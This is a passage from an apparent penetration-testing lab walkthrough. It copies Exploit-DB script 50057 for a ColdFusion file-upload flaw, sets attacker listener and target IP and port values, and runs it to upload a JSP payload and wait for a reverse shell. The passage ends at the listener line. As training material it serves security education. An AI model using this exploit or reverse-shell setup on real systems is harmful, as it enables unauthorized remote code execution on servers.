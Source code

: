 Copied EDB-ID #50057's path to the clipboard
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
</code></pre>
<p>A quick <code>cat</code> review of the code indicates that the script needs some information. Set the correct information and launch the exploit.</p>
<h4>Exploit Modification</h4>
<pre><code class="language-python">if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
</code></pre>
<p>The exploit will take a bit of time to launch, but it eventually will return a functional remote shell</p>
<h4>Exploitation</h4>
<pre><code class="language-shell-session">[!bash!]$ python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

&lt;SNIP&gt;

--77c732cb2f394ea79c71d42d50274368--


Sending request and printing response...


		&lt;script type="text/javascript"&gt;
			window.parent.OnUploadCompleted( 0, "/userfiles/file/1269fd7bd2b341fab6751ec31bbfb610.jsp/1269fd7bd2b341fab6751ec31bbfb610.txt", "1269fd7bd2b341fab6751ec31bbfb610.txt", "0" );
		&lt;/script&gt;
	

Printing some information for debugging...
lhost: 10.10.14.55
lport: 4444
rhost: 10.129.247.30
rport: 8500
payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Deleting the payload...

Listening for connection...
